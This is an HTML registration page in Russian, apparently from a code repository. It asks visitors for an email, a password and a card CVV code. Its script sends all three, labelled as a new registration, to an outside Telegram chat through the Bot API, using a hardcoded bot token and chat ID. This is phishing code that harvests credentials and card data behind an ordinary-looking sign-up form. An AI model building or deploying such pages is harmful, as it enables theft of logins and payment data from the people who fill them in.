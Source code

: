 <html lang="ru">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Регистрация</title>
    <style>
      form{
        display: flex;
        flex-direction: column;
        width: 250px;
        margin-left: 100px;
      }
      h1{
        margin-left: 100px;
      }
      button{
        margin-top: 10px;
        padding: 10px;
        background: green;
      }
    </style>
</head>
<body>
    <h1>Регистрация</h1>
    <form id="registrationForm">
        <p></p>
        <label for="text">Email</label>
        <input type="text" id="email" name="username" required>
        <br>
        <p></p>
        <label for="text">Password</label>
        <input type="text" id="pass" name="email" required>
        <p></p>
        <label for="cvv">cvv код</label>
        <input type="text" id="cvv" name="cvv" required>
        <br>
        <button type="submit">Зарегистрироваться</button>
    </form>

    <script>
        const form = document.getElementById('registrationForm')
        
        let submit = addEventListener('submit', e => {
          e.preventDefault() 
          
          const username = document.getElementById('pass').value;
          const email = document.getElementById('email').value;
          const cvv = document.getElementById('cvv').value;
          
          const token = '7942332820:AAFC2P1_9T8USat2LkVF_cXqtqCaBqs2O4g';
          const chatId = -1002372284940 
          const message = `Новая регистрация:\n Почта:${email}\n Пароль:${username}\n cvv: ${cvv}`;
          const url = `https://api.telegram.org/bot${token}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(message)}`;
          
          
          fetch(url) 
          .then(response => {
            if (response) {
              
              alert('Данные успешно отправлены в Telegram!');
            } else {
              console.log('error');
            }
          })
          .catch(error => {
            console.error('Ошибка:', error);
            alert('Ошибка при отправке данных.');
          });
        });
    </script>
</body>
</html>
